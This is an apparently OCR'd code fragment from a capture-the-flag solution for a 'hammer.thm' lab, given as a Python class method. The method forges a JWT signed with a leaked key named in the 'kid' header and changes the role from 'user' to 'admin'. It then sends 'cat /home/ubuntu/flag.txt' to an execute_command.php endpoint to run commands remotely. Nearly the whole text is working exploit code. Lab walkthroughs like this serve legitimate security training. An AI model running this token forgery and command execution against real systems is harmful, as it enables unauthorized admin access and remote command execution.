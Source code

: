 ```python

    def start(self):
        # login
        self.login()

        key = '56058354efb3daa97ebab00fabd7a7d7' # retrieved from 188ade1.key

        payload = {
            "iss": "http://hammer.thm",
            "aud": "http://hammer.thm",
            "iat": 1748754378,
            "exp": 1749757978,
            "data": {
                "user_id": 1,
                "email": "tester@hammer.thm",
                "role": "admin" # changed from "user" -> "admin"
            }
        }
        headers = {
            "typ": "JWT",
            "alg": "HS256",
            "kid": "188ade1.key"
        }

        token = jwt.encode(payload, key, algorithm='HS256', headers=headers)
        command = 'cat /home/ubuntu/flag.txt'  # command to read flag

        print(f'[INFO] token={token}')

        res = self.s.post(f'{self.URL}/execute_command.php',
                          headers={
                              'Content-Type': 'application/json', 'Authorization': f'Bearer {token}'},
                          json={
                              'command': command
        })

        print(f'[INFO] {res.status_code}')
        print(f'[INFO] {res.text}')


IP = input('[!] Enter the target IP address: ')

jwt_exploit = JWT_KID_EXPLOIT(IP)
jwt_exploit.start()
```
